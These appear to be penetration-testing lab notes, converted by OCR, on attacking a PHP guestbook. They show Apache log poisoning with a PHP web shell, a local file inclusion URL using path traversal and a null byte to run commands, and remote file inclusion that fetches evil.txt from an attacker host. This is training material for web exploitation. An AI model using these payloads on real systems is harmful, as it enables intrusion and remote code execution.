 ![](media/f5cbb8f2c56c91b30ee61e8c20a5cdfc.png)

This connection results in the following text written to the Apache log files

c:\\xampp\\apache\\logs\\access.log

10.11.0.5 - - [17/Apr/2013:06:22:00 -0400] " \<?php echo
shell_exec(\$_GET['cmd']);?\>"

400 1047

code execution

http://10.11.1.35/addguestbook.php?name=a&comment=b&cmd=ipconfig&LANG=../../../../../../../xampp/apache/logs/access.log%00

RFI

http://10.11.1.35/addguestbook.php?name=a&comment=b&LANG=http://10.11.0.5/evil.txt

![](media/9f5ec29f99562e854c7507f042d1e64d.png)

![](media/5119a83247eb4a82cea96cafeebe8685.png)

http://10.11.1.35/addguestbook.php?name=a&comment=b&LANG=http://10.11.0.5/evil.txt%00
